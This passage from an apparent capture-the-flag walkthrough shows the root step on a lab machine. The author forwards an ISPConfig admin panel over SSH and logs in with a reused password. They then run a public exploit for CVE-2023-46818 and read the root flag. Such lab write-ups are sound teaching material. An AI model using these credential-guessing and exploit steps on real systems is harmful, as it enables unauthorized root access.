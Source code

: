 Nothing stood out. Let’s look at the open ports. 8080 seems interesting as normally web pages are hosted there:

```bash
curl -i http://localhost:8080

HTTP/1.1 302 Found
Host: localhost:8080
Date: Thu, 28 Aug 2025 16:22:33 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.29
Content-Type: text/html; charset=utf-8
Set-Cookie: ISPCSESS=ujhu7qo5nj3k6vedn3cd0hqkmo; path=/; HttpOnly; SameSite=Lax
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /login/
Vary: Accept-Encoding

```

Let’s forward it to our [localhost](http://localhost) so we can have a better look:

```bash
ssh tobias@10.10.11.64 -L 8080:localhost:8080
```

![image.png](Attack%20Path%201d4068bbc57d80fe8c30e840fd3b6b4c/image%2014.png)

Tried default credentials:

```bash
admin:admin
admin:demo

```

In the /var/www folder, we see a ispconfig dir. However, we do not have permission to go into it.

Let’s try the master password from before as amanada, admin and tobias. No result. Let’s try it now with tobias’ password:

```bash
admin:slowmotionapocalypse
```

We are in.

In the help tab, we find the version: ISPConfig Version: 3.2.10p1

![image.png](Attack%20Path%201d4068bbc57d80fe8c30e840fd3b6b4c/image%2015.png)

A search on Google revealed exploit:

[https://github.com/ajdumanhug/CVE-2023-46818](https://github.com/ajdumanhug/CVE-2023-46818)

Let’s download the exploit and try it out.

```bash
python3 exploit.py http://localhost:8080 admin slowmotionapocalypse
```

![image.png](Attack%20Path%201d4068bbc57d80fe8c30e840fd3b6b4c/image%2016.png)

now we can get root flag

```bash
cat /root/root.txt
```